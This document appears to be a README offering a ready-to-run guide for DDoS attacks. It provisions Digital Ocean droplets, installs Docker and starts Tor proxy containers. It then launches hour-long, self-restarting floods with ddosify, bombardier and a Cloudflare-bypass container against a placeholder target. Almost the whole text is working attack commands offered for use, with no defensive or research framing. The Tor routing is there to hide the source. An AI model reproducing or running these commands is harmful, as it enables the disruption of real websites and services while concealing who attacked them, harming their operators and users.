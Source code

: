 # DDoS with Docker, Digital Ocean, TOR.

## Prepare Digital Ocean droplet (Ubuntu)

### Create a new droplet

https://docs.digitalocean.com/products/droplets/how-to/create/

### Allow SSH connections

```
sed -i 's/#PubkeyAuthentication/PubkeyAuthentication/g' /etc/ssh/sshd_config && sudo service sshd restart
```

### Install docker

```
sudo apt update
sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu focal stable"
apt-cache policy docker-ce
sudo apt install -y docker-ce
sudo systemctl status docker
sudo usermod -aG docker ${USER}
```

### Run tor-proxy docker containers

```sh
for i in $(seq 0 6); do docker create --name tor${i} -it --restart=always -p $(expr 8118 + ${i}):8118 -p $(expr 9050 + ${i}):9050 dperson/torproxy; done
for i in $(seq 0 6); do docker start tor${i}; done
```

## Run DDoS

**Note, run one DDoS tool per droplet!**

### Run/re-run tool - DDOSIFY

```sh
for i in $(seq 1 5); do docker kill attack${i}; done
for i in $(seq 1 5); do docker rm attack${i}; done

for i in $(seq 1 5); do docker create --name attack${i} -it --restart=always --network="host" \
    ddosify/ddosify /bin/ddosify -P "http://localhost:$(expr 8118 + ${i})" -T 10 -n 50000 -d 3600 -p HTTPS -m GET -l linear -t <TARGET_TO_ATTACK> \
    ; done

for i in $(seq 1 5); do docker start attack${i}; done
```

### Run/re-run tool - BOMBARDIER

```sh
for i in $(seq 1 5); do docker kill attack${i}; done
for i in $(seq 1 5); do docker rm attack${i}; done

for i in $(seq 1 5); do docker create --name attack${i} -it --restart=always --network="host" \
    --env="https_proxy=http://localhost:$(expr 8118 + ${i})" \
    --env="http_proxy=http://localhost:$(expr 8118 + ${i})" \
    alpine/bombardier -c 50000 -d 1h -l <TARGET_TO_ATTACK> \
    ; done

for i in $(seq 1 5); do docker start attack${i}; done
````

### Run/re-run tool - CF-BYPASS

```sh
for i in $(seq 1 5); do docker kill attack${i}; done
for i in $(seq 1 5); do docker rm attack${i}; done

for i in $(seq 1 5); do docker create --name attack${i} -it --restart=always --network="host" \
    bobjoe9590/cf-bypass <TARGET_TO_ATTACK> 3600 http://localhost:$(expr 8118 + ${i}) \
    ; done

for i in $(seq 1 5); do docker start attack${i}; done
```
